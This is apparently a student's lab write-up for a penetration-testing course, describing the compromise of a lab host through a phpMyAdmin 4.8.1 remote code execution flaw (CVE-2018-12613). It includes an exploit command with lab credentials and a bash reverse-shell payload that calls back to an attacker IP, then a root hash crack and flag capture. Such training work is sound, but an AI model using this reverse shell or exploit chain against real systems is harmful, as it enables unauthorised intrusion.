

# Lab 10.2 - Exploiting nancurunir

Target: nancurunir.shire.org

## Deliverable 1. Provide the Following Information to include commands and screenshots. Provide all this information within a Pentest Report for this target. Come up with your own Title Page and Pen Test Organization (A Tolkien theme is preferred). Here's a [sample](https://docs.google.com/document/d/1ZmKB5mBZOSlk4Sg4MmsM1skxpTIHJ4ZwIevfPX3dlPk/edit?usp=sharing) prepared by a student on the cupcake target.

* Target IP Address

  using the nslookup command to see the ip address:

  `sudo nslookup nancurunir.shire.org 10.0.5.22`

  

* Open Ports

  `sudo nmap 10.0.5.28 -sV`

  

* Discovered Vulnerabilities

  I ran a dirbuster to find the hidden directories, and I found a phpmyadmin:

  

* How you achieved a foothold

  The Version of the phpmyadmin is 4.8.1 which vulnerable to remote code execution. so I installed the python code and execute it and I got in.

`python 50457.py 10.0.5.28 80 /phpmyadmin gandalf shallnotpass "bash -c 'exec bash -i &>/dev/tcp/10.0.99.47/4449 <&1'"`

* How you achieved root/Administrative level compromise

  First I went to the Users and I went to root. 

  

  

  after that I took the hash to crack to find the root password. 

  

  

* User Flag

  I went to gandalf home and I saw the User Flag.

  

* Root Flag

  I went to root home and I saw the Root Flag.

  

* How might the vulnerabilities be mitigated by the system administrator?

  This is a big problem that we need to be carful and making sure that our system is up to date. CVE-2018-12613, phpMyAdmin 4.8.1 - Remote Code Execution (RCE). https://www.exploit-db.com/exploits/50457

  

Hints, if needed

[Hint 1](https://docs.google.com/document/d/1Fx2K8-aDAXz5evjStXBMwYdQBT1-MUm2K1zh4dReVJs/edit?usp=sharing) 

[Hint 2](https://docs.google.com/document/d/16eLLqMrkd3c7KKpOqEIrT3iuCNEOomaaS_hZCX952jM/edit?usp=sharing)

[Hint 3](https://docs.google.com/document/d/1gChEun49LOog_Aa25TzbqR78gPowlmo7ok-0I8henkw/edit?usp=sharing)

## Deliverable 2. Tech Journal and Reflection. If there are technical elements covered in your pentest report that aren't already in your journal, make sure to add them to your journal. Provide a Link

Some problems that I had was getting the password for the user gandalf. At the end I had to see the hint to get the password.   Other than that I had fun figuring out the password. 

PenTest Report: https://docs.google.com/document/d/1HjvwKGNkimoq-BRc_qqTNDE_oca5qSsMOJwtZOTS1Cw/edit?usp=sharing

